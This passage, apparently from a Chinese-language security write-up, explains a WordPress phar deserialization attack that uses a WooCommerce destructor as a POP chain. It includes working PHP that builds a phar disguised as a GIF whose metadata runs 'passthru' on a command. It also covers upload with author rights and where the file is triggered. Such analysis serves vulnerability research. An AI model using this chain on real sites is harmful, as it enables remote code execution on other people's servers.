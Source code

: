 这个类继承了ArrayIterator，每当这个类实例化的对象进入foreach被遍历的时候，current()方法就会被调用。下一步要寻找一个内部使用foreach的析构方法，很遗憾wordpress的核心代码中并没有合适的类，只能从插件入手。这里在WooCommerce插件中找到一个能够利用的类：

wp-content/plugins/woocommerce/includes/log-handlers/class-wc-log-handler-file.php

class WC_Log_Handler_File extends WC_Log_Handler {
    protected $handles = array();
    /*......*/
    public function __destruct() {
        foreach ( $this->handles as $handle ) {
            if ( is_resource( $handle ) ) {
                fclose( $handle ); // @codingStandardsIgnoreLine.
            }
        }
    }
    /*......*/
}
到这里pop链就构造完成了，据此构建phar文件：

<?php
    class Requests_Utility_FilteredIterator extends ArrayIterator {
        protected $callback;
        public function __construct($data, $callback) {
            parent::__construct($data);
            $this->callback = $callback;
        }
    }

    class WC_Log_Handler_File {
        protected $handles;
        public function __construct() {
            $this->handles = new Requests_Utility_FilteredIterator(array('id'), 'passthru');
        }
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub, 增加gif文件头，伪造文件类型
    $o = new WC_Log_Handler_File();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
将后缀名改为gif后，可以在后台上传，也可以通过xmlrpc接口上传，都需要author及以上的权限。记下上传后的文件名和post_ID。

接下来我们要找到一个参数可控的文件系统函数：

wp-includes/post.php

function wp_get_attachment_thumb_file( $post_id = 0 ) {
    $post_id = (int) $post_id;
    if ( !$post = get_post( $post_id ) )
        return false;
    if ( !is_array( $imagedata = wp_get_attachment_metadata( $post->ID ) ) )
        return false;

